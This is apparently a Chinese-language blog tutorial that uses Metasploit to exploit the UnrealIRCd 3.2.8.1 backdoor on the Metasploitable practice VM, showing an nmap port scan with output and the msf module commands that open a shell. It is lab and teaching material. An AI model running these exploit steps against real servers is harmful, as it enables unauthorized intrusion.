 ```yaml
---
title: unreal_ircd_3281_backdoor漏洞
categories:
- 漏洞
tags:
- msf
updated: 2018-05-16
---
```





Metasploitable漏洞演练系统 是Metasploit团队维护的一个集成了各种漏洞弱点的Linux主机(ubuntu)镜像,这方便大家对于msf的学，以下以6667端口的unreal_ircd_3281_backdoor进行攻击。

  可以在虚拟机中启动（登录密码和账号都是msfadmin）

  <img src="{{ site.url }}/assets//blog_images/unreal_ircd_3281_backdoor_01.png"/>

  

  ```c++
  查看ip    ifconfig
  ```

  <img src="{{ site.url }}/assets//blog_images/unreal_ircd_3281_backdoor_02.png"/>

  

  - 地址为：192.168.127.145

     然后在kali linux中进行渗透：

     启动msf

     

    <img src="{{ site.url }}/assets//blog_images/unreal_ircd_3281_backdoor_03.png"/>

  

   

  ```
    然后nmap 192.168.127.145查看开放端口
  ```

    exec: nmap 192.168.127.145
  Starting Nmap 7.70 ( https://nmap.org ) at 2018-05-05 13:29 CST
  Nmap scan report for 192.168.127.145
  Host is up (0.00015s latency).
  Not shown: 977 closed ports
  PORT     STATE SERVICE
  21/tcp   open  ftp
  22/tcp   open  ssh
  23/tcp   open  telnet
  25/tcp   open  smtp
  53/tcp   open  domain
  80/tcp   open  http
  111/tcp  open  rpcbind
  139/tcp  open  netbios-ssn
  445/tcp  open  microsoft-ds
  512/tcp  open  exec
  513/tcp  open  login
  514/tcp  open  shell
  1099/tcp open  rmiregistry
  1524/tcp open  ingreslock
  2049/tcp open  nfs
  2121/tcp open  ccproxy-ftp
  3306/tcp open  mysql
  5432/tcp open  postgresql
  5900/tcp open  vnc
  6000/tcp open  X11
  6667/tcp open  irc
  8009/tcp open  ajp13
  8180/tcp open  unknown

  MAC Address: 00:0C:29:E4:E7:DD (VMware)

  因为作为靶机，所以端口自然就是很多，但是在实际中，不可能开放这么多的端口的。

  然后我们要利用的是

  6667端口之unreal_ircd_3281_backdoor

  所以搜索： search unreal_ircd_3281_backdoor

- <img src="{{ site.url }}/assets//blog_images/unreal_ircd_3281_backdoor_04.png"/>



```c++
然后使用：   use exploit/unix/irc/unreal_ircd_3281_backdoor
```

<img src="{{ site.url }}/assets//blog_images/unreal_ircd_3281_backdoor_05.png"/>



```c++
再执行show options
```

<img src="{{ site.url }}/assets//blog_images/unreal_ircd_3281_backdoor_06.png"/>

- ```
  设置攻击机：set RHOST 192.168.127.145 
  ```

  <img src="{{ site.url }}/assets//blog_images/unreal_ircd_3281_backdoor_07.png"/>

  `然后执行：exploit`

  

    	

  <img src="{{ site.url }}/assets//blog_images/unreal_ircd_3281_backdoor_08.png"/>

  权限就已经拿到了：

<img src="{{ site.url }}/assets//blog_images/unreal_ircd_3281_backdoor_09.png"/>
